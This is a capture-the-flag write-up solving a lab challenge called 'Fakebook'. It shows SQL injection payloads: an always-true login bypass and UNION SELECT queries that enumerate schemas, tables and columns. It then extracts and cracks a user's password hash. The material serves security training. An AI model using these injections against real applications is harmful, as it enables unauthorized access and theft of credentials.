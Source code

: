 # Fakebook

## Description
Fakebook is an online social media platform, but it is still in the development phase, hence there may be some flaws. Note: Quotes are filtered!

Exploit the SQLi flaw in the application and log in as LeonSKennedy!

## Solution
1. First let us try a general sql injection: `1 or 1=1-- -`. We can see that that only one column is displayed.
   
2. With the following injections, we can narrow down the different tables, coulmns and the schemas they belong to:

   `1 UNION select TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS-- -`

    There are 2 schemas: public, information_schema

   `1 UNION select TABLE_NAME||TABLE_SCHEMA  from INFORMATION_SCHEMA.COLUMNS-- -`

   There are 2 tables that we might find useful: public.fakebook, information_schema.users

   `1 UNION select COLUMN_NAME||TABLE_NAME||TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS-- -`

   public.fakebook has the following columns we might find useful: password, username.
   Unfortunately, the users table does not seem very useful. (It has columns such as Admin, Name and Remarks)

3. Now we have all the information we need. Let us find the password for LeonSKennedy! Use the following command to find the password:
   
     <img width="328" alt="image" src="https://github.com/swaathiLaks/Mimosa-Solutions/assets/113973466/29cd7acc-d4e1-4b1f-99aa-40a28273a7a8">

      However, it appears the password is hashed. Let's dehash it.
   
4. I ended up using a website to dehash the password. When I figure an offline method that will work on windows, I will update this file.

    <img width="616" alt="image" src="https://github.com/swaathiLaks/Mimosa-Solutions/assets/113973466/2447c0e4-b196-4306-b4b9-6496cd0e8785">
